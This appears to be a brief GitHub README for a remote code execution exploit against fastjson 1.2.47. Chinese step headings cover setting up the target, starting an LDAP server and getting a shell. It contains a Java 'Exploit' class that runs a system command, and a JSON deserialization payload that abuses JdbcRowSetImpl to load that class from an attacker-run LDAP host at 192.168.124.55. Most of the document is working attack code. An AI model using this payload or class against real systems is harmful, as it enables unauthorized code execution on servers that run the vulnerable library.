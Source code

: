 ## fastjson-1.2.47-rce

* 1.靶机搭建
* 2.服务器ldap开启
* 3.攻击机getshell

![](./1.server.jpg)

![](./2.ldap.jpg)

![](./3.poc.jpg)

![](./4.getshell.jpg)

### Exploit.java

    import java.io.BufferedReader;
    import java.io.InputStream;
    import java.io.InputStreamReader;
    
    public class Exploit{
    public Exploit() throws Exception {
    Process p = Runtime.getRuntime().exec(new String[]{"touch /tmp/fastjson.test"});
    InputStream is = p.getInputStream();
    BufferedReader reader = new BufferedReader(new InputStreamReader(is));
    
    String line;
    while((line = reader.readLine()) != null) {
    System.out.println(line);
    }
    
    p.waitFor();
    is.close();
    reader.close();
    p.destroy();
    }
    
    public static void main(String[] args) throws Exception {
    }
    }


### POC

```
{
  "name": {
    "@type": "java.lang.Class",
    "val": "com.sun.rowset.JdbcRowSetImpl"
  },
  "x": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://192.168.124.55:8088/fastjson/Exploit",
    "autoCommit": true
  }
}
```

![](./3.poc.jpg)